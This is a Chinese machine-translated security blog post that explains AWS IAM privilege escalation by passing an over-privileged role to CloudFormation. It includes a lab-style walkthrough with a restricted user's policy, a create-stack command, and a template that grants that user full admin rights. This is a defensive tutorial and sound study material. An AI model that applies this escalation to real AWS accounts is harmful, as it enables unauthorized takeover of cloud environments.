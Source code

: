 # 将角色传递给 AWS CloudFormation 以提升权限

> 原文：<https://infosecwriteups.com/passing-a-role-to-cloudformation-to-escalate-privileges-602010d26f55?source=collection_archive---------0----------------------->

![](img/6f9d10276bce994d1230bd28e2a958a3.png)

最小特权原则是只授予完成任务所需的权限。但是如何在 AWS 云中实现最小特权和安全构建呢？您可能只是利用附加到 IAM 用户或 IAM 角色的 AdministratorAccess 策略来删除过多的特权，而不会注意到具有额外特权的角色或资源通过 iam:PassRole 等其他方式隐式授予。

在这篇博客文章中，CloudFormation 用例将描述 IAM 用户如何使用 iam:PassRole 获得不受约束的权限提升。

# 必备知识

**自动气象站云形成**

AWS CloudFormation 是一项以有序方式提供 AWS 资源集合的服务，这些 AWS 资源包括 IAM 用户/角色的内嵌策略。

AWS CloudFormation 使用模板和堆栈。模板描述了 AWS 资源及其属性。每当创建 AWS CloudFormation 堆栈时，只要指定一个模板，就会提供模板中描述的资源。

模板中所有 AWS CloudFormation 支持的 AWS 资源和属性类型都可以在[这里](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-template-resource-type-ref.html%20)找到。

在利用部分，通过 AWS CloudFormation 提升 IAM 用户的权限，将使用以下语法创建内联策略并将其附加到 IAM 用户:

```
Type: AWS::IAM::Policy
Properties: 
  Groups: 
    - String
  PolicyDocument: Json
  PolicyName: String
  Roles: 
    - String
  Users: 
    - String
```

**IAM:PassRole**

有时，当您使用 AWS 服务执行某些操作时，您需要向这些服务传递一个角色，这样它们就可以隐式地(不执行 sts:AssumeRole)承担该角色来完成操作。

以 AWS CloudFormation 为例，当使用如下所示的 AWS cli 创建堆栈时，您向堆栈传递一个指定为 arn _ of _ cloud formation _ service _ role 的角色，后跟–- role-arn 标志，否则操作可能会由于权限不足而失败。

```
aws cloudformation create-stack –-stack-name demo_stack –-template-body file://malicious-template.yaml –-role-arn arn_of_cloudformation_service_role
```

并非每个人都有权将角色传递给服务，只有拥有 iam:PassRole 权限的用户才能这样做。

# 攻击场景

为简单起见，假设有一个攻击者拥有 IAM 用户 awsSecLab，该用户只拥有下面策略中描述的有限权限。

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "iam:PassRole",
                "iam:Get*",
                "iam:List*",
                "cloudformation:CreateStack"
            ],
            "Resource": "*"
        }
    ]
}
```

由于 IAM 用户 awsSecLab 被授权创建 CloudFormation 堆栈，他决定试试运气，并搜索 CloudFormation 可以承担的角色，同时浏览 IAM 角色列表，他找到了 cloudformation-demo 角色，具有以下受信任的实体。

![](img/261d9d36a7d70e263b3794803ff0265f.png)

cloudformation-demo 角色包含一个内嵌策略调用 cloudformation-demopolicy，该策略使 cloudformation 能够更新附加到 IAM 用户的策略。

![](img/955aa4b2c3085619daa4c04101e9c77b.png)

现在，权限提升所需的所有东西(攻击者传递角色和创建 CloudFormation 堆栈的权限，cloudformation-demo 角色可以由 AWS CloudFormation 承担，从而允许它为攻击者更新策略)都已准备就绪，IAM 用户 awsSecLab 决定尝试一下。

# 剥削

为了提升权限，IAM 用户 awsSecLab 创建了下面的 CloudFormation 模板，旨在为自己添加一个内联策略，这样他将拥有 admin 权限。模板在本地保存为 IAM_Policy_CF.yaml。

```
AWSTemplateFormatVersion: 2010-09-09
Description: Basic IAM Role
​
Resources:
    AutoTemplate:
        Type: 'AWS::IAM::Policy'
        Properties:
          PolicyName: root
          PolicyDocument:
            Version: "2012-10-17"
            Statement:
              - Effect: Allow
                Action: '*'
                Resource: '*'
          Users:
            - awsSecLab
```

要提供模板中描述的策略，AWS CloudFormation 堆栈应该对 iam 用户 awsSecLab 使用 iam:PutUserPolicy 权限。由于 iam 用户 AWS clab 可以传递 cloudformation-demo 角色来授予 iam:PutUserPolicy 对 AWS CloudFormation 堆栈的权限，因此在他为传递的角色发出如下带有- role-arn 标志的`aws cloudformation create-stack` cli 后，堆栈将创建名为 root 的内联策略，并将其附加到 IAM 用户 AWS clab。

![](img/68cdf7c64925747de551d17bd9d7a7df.png)

IAM 用户 awsSecLab 在 AWS IAM 控制台中检查 IAM 用户设置，他可以看到附加的根策略，这意味着他获得了管理员权限。

![](img/c37712b49e21a6b88aedf0266d1d5ac1.png)

现在，您已经学习了如何通过向 AWS CloudFormation 传递角色来执行特权操作。如果你认为这篇博文有帮助，请点击拍手👏按钮下面几下，以示支持！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)，以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！